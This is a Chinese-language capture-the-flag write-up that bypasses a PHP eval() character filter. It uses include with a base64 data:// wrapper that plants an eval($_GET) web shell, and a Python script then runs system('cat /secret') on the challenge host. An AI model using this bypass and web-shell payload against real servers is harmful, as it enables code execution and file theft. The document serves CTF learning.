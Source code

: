 先看代码
~~~
<?php


if(check($code)){

    eval('$result='."$code".";");
    echo($result);    
}

function check(&$code){

    $num1=$_POST['num1'];
    $symbol=$_POST['symbol'];
    $num2=$_POST['num2'];

    if(!isset($num1) || !isset($num2) || !isset($symbol) ){
        
        return false;
    }

    if(preg_match("/!|@|#|\\$|\%|\^|\&|\(|_|=|{|'|<|>|\?|\?|\||`|~|\[/", $num1.$num2.$symbol)){
        return false;
    }

    if(preg_match("/^[\+\-\*\/]$/", $symbol)){
        $code = "$num1$symbol$num2";
        return true;
    }

    return false;
}

~~~
从题目代码来看，是输入3个值，分别是num1、符号值、num2\
然后过滤了一大堆符号，这种就是最直接的提示，没过滤哪个，就用哪个\
然后把3个值拼接起来进行执行\
既然是eval就是代码执行，但是又不能用括号，那么只能用不用括号的函数了，那么答案很显然\
php中不需要括号使用的函数，叫做语言结构，常见的有include、require、echo等

那么思路有了，要使用include来执行代码，那么显而易见，肯定要用到伪协议了\
我们只需要构造出一个data的伪协议看看\
正常的伪协议包含是这样的
~~~
include "data://text/plain,<?php phpinfo();?>"
~~~
但是呢，题目不能用括号和< 随意需要对执行的代码进行编码\
使用data协议的第二种写法
~~~
include "data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8+"
~~~
观察符号，刚好都在可以用的范围之内\
可以拆分给三个变量分别复制
~~~
$num1 = "include data:/";
$symbol = "/";
$num2 = "text/plain;base64,PD9waHAgcGhwaW5mbygpOz8+"

$num1$symbol$num2="include data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8+"
~~~
放到eval里面后，就能代码执行了,使用更优雅的写法
~~~
num1=include "data:ctfshow&symbol=/&num2=b;base64,PD9waHAgZXZhbCgkX0dFVFsxXSk7Pz4";
~~~
python 脚本如下：
~~~
import requests

url="http://ce01537e-72f8-4ac1-adc8-d034957ad28b.challenge.ctf.show/"

def flag():
    data={
        "num1": 'include "data:ctfshow',
        "symbol": "/",
        "num2": 'b;base64,PD9waHAgZXZhbCgkX0dFVFsxXSk7Pz4";'
    }
    response=requests.post(url=url+"?1=system('cat /secret');die();",data=data)
    print(response.text)

if __name__=='__main__':
    flag()
~~~
